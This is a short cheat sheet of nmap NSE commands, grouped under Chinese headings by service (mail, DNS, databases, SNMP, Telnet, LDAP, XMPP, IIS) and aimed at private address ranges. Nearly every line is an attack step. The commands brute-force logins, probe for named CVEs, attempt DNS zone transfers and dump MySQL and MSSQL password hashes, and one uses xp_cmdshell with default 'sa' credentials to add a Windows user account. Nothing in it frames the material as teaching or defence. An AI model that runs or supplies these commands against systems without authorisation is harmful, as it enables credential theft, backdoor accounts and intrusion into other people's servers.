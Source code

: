 SMTP相关脚本:
nmap -p 25 --script smtp-brute.nse -v 192.168.3.23
nmap -p 25 --script smtp-enum-users.nse -v 192.168.3.23
nmap -p 25 --script smtp-vuln-cve2010-4344.nse -v 192.168.3.23
nmap -p 25 --script smtp-vuln-cve2011-1720.nse -v 192.168.3.23
nmap -p 25 --script smtp-vuln-cve2011-1764.nse -v 192.168.3.23

POP3相关脚本:
nmap -p 110 --script pop3-brute.nse -v 192.168.3.23

IMAP相关脚本:
nmap -p 143,993 --script imap-brute.nse -v 192.168.3.23

DNS相关脚本:
nmap -p 53 --script dns-zone-transfer.nse -v 192.168.3.23
nmap -p 53 --script dns-zone-transfer.nse --script-args dns-zone-transfer.domain=target.org -v 192.168.3.23
nmap -p80 --script hostmap-ip2hosts.nse 192.168.3.23

数据库相关脚本:
nmap -p 9088 --script informix-brute.nse 192.168.3.23
nmap -p 3306 --script mysql-empty-password.nse -v 192.168.3.23
nmap -p 3306 --script mysql-brute.nse -v 192.168.3.23
nmap -p 3306 --script mysql-dump-hashes --script-args='username=root,password=root' 192.168.3.23
nmap -p 3306 --script mysql-vuln-cve2012-2122.nse  -v 192.168.3.23
nmap -p 1433 --script ms-sql-info.nse --script-args mssql.instance-port=1433 -v 192.168.3.0/24
nmap -p 1433 --script ms-sql-empty-password.nse -v 192.168.3.0/24
nmap -p 1433 --script ms-sql-brute.nse -v 192.168.3.0/24
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user test test /add" 192.168.3.0/24
nmap -p 1433 --script ms-sql-dump-hashes -v 192.168.3.0/24
nmap -p 5432 --script pgsql-brute -v 192.168.3.0/24
nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v 192.168.3.0/24
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v 192.168.3.0/24
nmap -p 27017  --script mongodb-brute 192.168.3.0/24
nmap -p 6379 --script redis-brute.nse 192.168.3.0/24

SNMP相关脚本:
nmap -sU --script snmp-brute --script-args snmp-brute.communitiesdb=user.txt 192.168.3.0/24

TELNET相关脚本:
nmap -p 23 --script telnet-brute --script-args userdb=myusers.lst,passdb=mypwds.lst,telnet-brute.timeout=8s -v 192.168.3.0/24

LDAP相关脚本:
nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' 192.168.3.0/24

XMPP爆破:
nmap -p 5222 --script xmpp-brute.nse  192.168.3.0/24

短文件扫描:
nmap -p80 --script http-iis-short-name-brute.nse 192.168.3.0/24

iis5.0/6.0 webdav:
nmap --script http-iis-webdav-vuln.nse -p80,8080 192.168.3.0/24
